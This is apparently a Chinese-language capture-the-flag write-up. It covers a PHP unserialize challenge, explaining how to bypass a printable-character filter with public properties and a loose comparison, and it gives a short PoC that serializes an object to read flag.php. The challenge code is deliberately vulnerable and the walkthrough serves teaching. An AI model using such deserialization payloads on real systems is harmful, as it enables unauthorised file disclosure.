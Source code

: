 先审计一下代码，不懂自己都在干啥

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str); //会调用__destruct函数
    }

}
```

经典的反序列化问题，但是is_valid()函数规定字符的ASCII码必须是32-125，而protected属性在序列化后会出现不可见字符\00*\00，转化为ASCII码不符合要求。

不知道自己一直在传什么

发现大多数php在线运行环境都没有显示这种不可见符。找到一个可以显示的<a href="https://www.toolnb.com/dev/runCode.html">php在线运行</a>，但是这里的\00并没有办法过去is_valid()函数，于是

绕过方法：PHP7.1以上版本对属性类型不敏感，public属性序列化不会出现不可见字符，可以用public属性来绕过。==即我们最后在构造poc的时候，用public来修饰属性==

首先我们看到了read()里面的file_get_contents敏感函数process()中有调用了read()函数，条件是op == “2”
__destruct()调用了process()函数，条件是op!==“2”
可以看到这里有个弱类型的问题，构造op=2即可绕过了

然后即可传递序列化对象即可

```php
<?php
class FileHandler {
    public $op=2;
    public $filename="flag.php";
    public $content="HappyCoder";
}
$a=new FileHandler();
echo serialize($a);
?>
```



注意后面查看源码，而不是对着result：0发呆



